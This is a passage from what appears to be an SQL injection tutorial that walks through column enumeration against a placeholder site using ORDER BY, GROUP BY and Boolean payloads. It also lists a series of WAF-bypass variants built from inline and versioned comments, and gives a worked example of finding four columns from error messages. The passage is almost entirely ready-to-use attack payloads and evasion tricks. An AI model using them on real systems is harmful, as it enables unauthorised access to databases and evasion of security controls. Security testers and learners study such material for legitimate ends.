     - If none of payload's didn't work, try the following one:  
        `http://domain.com/index.php?id=1 GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100`
        
    - The last option is to use a Boolean based payload:  
        `http://domain.com/index.php?id=1 and true order by 1-- -`  
        The given query musn't show up error.
        
    
    Look at the error and search which number reflects.
    
    Example:
    
    > Query failed: ERROR: the position **4** in GROUP_BY...
    
    From the error message, the 4th column is being reflected, which means we can dump that. Now move to the next step.
    
    - If none of payloads didn't work, it is problably a WAF blocking it. Try the following blocks until you won't see WAF detection or SQL syntax error. `http://domain.com/index.php?id=1' order by 1 desc-- -` `http://domain.com/index.php?id=1' group by 1-- -`  
        `http://domain.com/index.php?id=1' group by 1-- -`  
        `http://domain.com/index.php?id=1' /**/ORDER/**/BY/**/ 1-- -`  
        `http://domain.com/index.php?id=-1' /*!order*/+/*!by*/ 1-- -`  
        `http://domain.com/index.php?id=1' /*!ORDER BY*/ 1-- -`  
        `http://domain.com/index.php?id=1'/*!50000ORDER*//**//*!50000BY*/ 1-- -`  
        `http://domain.com/index.php?id=1' /*!12345ORDER*/+/*!BY*/ 1-- -`  
        `http://domain.com/index.php?id=1' /*!50000ORDER BY*/ 1-- -`  
        `http://domain.com/index.php?id=1' order/**_**/by 1-- -`  
        `http://domain.com/index.php?id=1\ order by 1-- -`  
        `http://domain.com/index.php?id=1' order by 1 asc-- -`  
        `http://domain.com/index.php?id=1' group by 1 asc-- -`  
        `http://domain.com/index.php?id=1' AND 0 order by 1-- -`
        
        - If none of the payloads didn't bypass WAF, try again the payloads by following the 2 rules below:
            
            Add a minus (-) before 1 (example: `?id=-1' /**/ORDER/**/BY/**/ 1-- -`)  
            Remove the quote (') after the parameter value (example: `?id=1 /**/ORDER/**/BY/**/ 1-- -`)
            

In this case, the payload `?id=1 order by 1-- -` worked and website loads successfuly. Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up:

`http://domain.com/index.php?id=1 order by 1` no error  
`http://domain.com/index.php?id=1 order by 2` no error  
`http://domain.com/index.php?id=1 order by 3` no error  
`http://domain.com/index.php?id=1 order by 4` no error  
`http://domain.com/index.php?id=1 order by 5` error: Query failed: ERROR:...

This means there are only 4 columns. Now we have to find which one of these 4 columns is vulnerable.

_NOTE: If none worked, try the same payloads, but remove the quote (') after number 1._

Website must successfully load and we will see a number (in our case between 1-4)
